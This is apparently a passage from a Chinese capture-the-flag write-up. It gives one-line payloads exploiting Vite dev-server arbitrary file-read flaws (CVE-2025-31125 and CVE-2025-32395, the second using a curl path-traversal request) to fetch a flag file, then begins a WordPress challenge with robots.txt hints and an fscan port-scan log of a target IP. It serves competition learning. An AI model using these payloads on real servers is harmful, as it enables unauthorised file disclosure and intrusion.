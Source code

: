 CVE-2025-31125

```bash
URL/@fs/tgflagggg?meteorkai.svg?.wasm?init
```

### **前端GAME Ultra**

https://mp.weixin.qq.com/s/HMhzXqSplWa-IwpftxwTiA

CVE-2025-32395

```bash
curl --request-target /@fs/app/#/../../../../../tgflagggg URL
```

### **TG_wordpress**

在robots.txt里面看到这两个

![img](../assets/1744970124055-4.png)

/.tmp/vuln和/.tmp/.bak

一个二进制文件和一个fscan的扫描结果

```markdown
fscan.exe -h 101.37.149.223 -ping

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
101.37.149.223:22 open
101.37.149.223:80 open
101.37.149.223:443 open
101.37.149.223:3306 open
101.37.149.223:27645 open
101.37.149.223:27646 open
101.37.149.223:27647 open
101.37.149.223:27648 open
101.37.149.223:27649 open
101.37.149.223:27650 open
101.37.149.223:27651 open
101.37.149.223:27652 open
101.37.149.223:27653 open
101.37.149.223:27654 open
101.37.149.223:27655 open
101.37.149.223:27656 open
101.37.149.223:27657 open
101.37.149.223:27658 open
101.37.149.223:27659 open
101.37.149.223:27660 open
101.37.149.223:27661 open
101.37.149.223:27662 open
101.37.149.223:33376 open
101.37.149.223:52013 open
```
